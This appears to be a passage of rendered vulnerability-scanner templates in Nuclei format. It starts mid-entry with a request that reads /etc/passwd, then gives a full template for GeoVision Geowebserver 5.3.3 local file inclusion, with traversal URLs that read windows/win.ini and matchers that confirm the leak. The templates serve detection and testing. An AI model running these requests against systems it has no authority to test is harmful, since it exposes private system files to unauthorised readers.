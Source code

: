 - {{BaseURL}}/wt3/forceSave.php?file=/etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# GeoVision Geowebserver 5.3.3 - Local File Inclusion

## Description

- GeoVision Geowebserver 5.3.3 allows remote unauthenticated attackers to disclose the content of locally stored files via local file inclusion.
- severity - high
- tags - packetstorm,geowebserver,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/Visitor//%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fwindows%5Cwin.ini
- {{BaseURL}}/Visitor/bin/WebStrings.srf?file=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fwindows/win.ini&obj_name=aaa

### Matchers

**Type - word**

- words
  1. bit app support
  2. fonts
  3. extensions
- condition - and
- part - body

**Type - status**

- status
  1. 200

---